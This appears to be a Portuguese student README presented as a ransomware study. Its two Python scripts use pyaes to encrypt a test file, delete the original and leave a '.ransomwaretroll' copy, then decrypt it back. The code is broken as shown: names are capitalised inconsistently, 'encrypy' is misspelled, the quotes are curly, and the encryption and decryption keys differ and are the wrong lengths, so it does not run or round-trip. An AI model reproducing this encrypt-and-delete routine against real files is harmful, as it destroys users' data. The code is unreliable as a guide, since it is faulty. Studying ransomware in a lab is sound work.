 # Estudo de Rasomware, encriptografando e descriptografando com Python

### Ferramentas

- Kali Linux
- pyaes


### Configuração do Arquivo Txt e do código Python no Kali Linux
Criar os Arquivos com o comando nano (usado para escrever/editar dentro de um arquivo) ou touch (usado para criar um arquivo) no terminal do Linux depois que estiver dentro da pasta “projeto-ransomware"



- encrypter.py

- decrypter.py

- teste.txt



### 2º ETAPA
Insira inforamções no documento ou identifique algum que já exista.

- Salvar com o ctrl + o;
- Depois de Enter;
- Depois Ctrl + x para salvar.


### 3º ETAPA
Verifique se possui as permissões para instalar a bibliteca Python com o comando:

- pip install pyaes

Depois prossiga com os comandos

- Import os
- Import pyaes


 
### Código para ecrypter.txt:

 
File­_name =‘teste.txt’

File = open(file_name, ‘rb’)

File_data = file.read()

File.close()

os.remove(file_name)

Key = b“testeransomware”

Aes = pyaes.AESModeOfOperationCTR(key)

Crypto_data = aes.encrypy(file_data)

new_file = file_name + ‘.ransomwaretroll'

new_file = open(f‘{new_file}’,‘wb’)

new_file.write(crypto_data)

new_file.close()

 

### Código para decrypter.txt:

file_name = ‘teste.txt.ransomwaretroll’

file = open(file_name, ‘rb’)

file_data = file.read()

file.close()

key = b‘testeransomwares’

aes = pyaes.AESModeOfOperationCTR(key)

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = ‘teste.txt’

new_file = open(f'{new_file}', ‘wb’)

new_file.write(decrypt_data)

new_file.close()

 
## ETAPA FINAL
Realizar os comandos de criptografar, listar arquivos (para ver o resultado), descriptografar abaixo e listar arquivos novamente (para ver o resultado final)

python encrypter.py

ls

python decrypter.py

ls

### Resutados

![Alt text](./TXT COM RASOM.png "TXT COM RASOM")
![Alt text](./TERMINAL 1.png "TERMINAL 1")
![Alt text](./TERMINAL 2.png "TERMINAL 2")
![Alt text](./TESTE.png "TESTE")
